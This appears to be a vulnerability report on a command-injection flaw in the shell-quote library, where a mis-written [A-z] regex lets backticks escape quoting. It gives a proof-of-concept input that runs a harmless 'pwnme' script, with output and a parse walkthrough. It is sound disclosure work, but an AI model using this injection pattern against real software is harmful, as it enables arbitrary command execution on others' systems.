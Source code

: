 I've found that a weakness in shell-quote can allow an untrusted input to run the `pwnme` script:

```sh
node test.js '`:`pwnme``:`'
ls -l /tmp/i-am-pwned
```

Output:

```
untrusted `:`pwnme``:`
/bin/sh: 1: :oh: not found
result <Buffer 3a 60 0a>
-rw-rw-r-- 1 app app 0 Oct 15 03:17 /tmp/i-am-pwned
```

Note that, although the attack plays with command substitution, the argument is single-quoted and it is not intended to activate as part of the command outside of node.
To verify, replace `node test.js` with a simple `echo`:

```sh
rm -f /tmp/i-am-pwned
echo '`:`pwnme``:`'
ls -l /tmp/i-am-pwned
```

Output:

```
`:`pwnme``:`
ls: cannot access '/tmp/i-am-pwned': No such file or directory
```

The search-and-replace for no-double-quotes-no-spaces-no-single-quotes inputs is as follows:

```js
return String(s).replace(/([A-z]:)?([#!"$&'()*,:;<=>?@\[\\\]^`{|}])/g, '$1\\$2');
```

It looks like the `([A-z]:)?` part is meant to help with Windows drive letters.
However due to the layout of ASCII, `[A-z]` includes `A` through `Z`, several symbols `` [\]^_` ``, and `a` through `z`.
This allows segments such as `` `:` `` trigger a match of the first capturing group, so that it gets replaced with `` `:\` ``.
Overall, the input

```
`:`pwnme``:`
```

gets incorrectly quoted as

```
`:\`pwnme\``:\`
```

In a shell command, this gets parsed and executed as:

```
`:\`pwnme\``:\`
^^^^^^^^^^^^     command substitution
                   tries to run :`pwnme`
                                ^         literal colon
                                 ^^^^^^^  command substitution
                                            tries to run pwnme
                                              pwnme prints oh no
                   tries to run :oh no
                     :oh command not found, so empty
            ^    literal colon
             ^^  escaped backtick, so literal backtick
                 result is :`
```
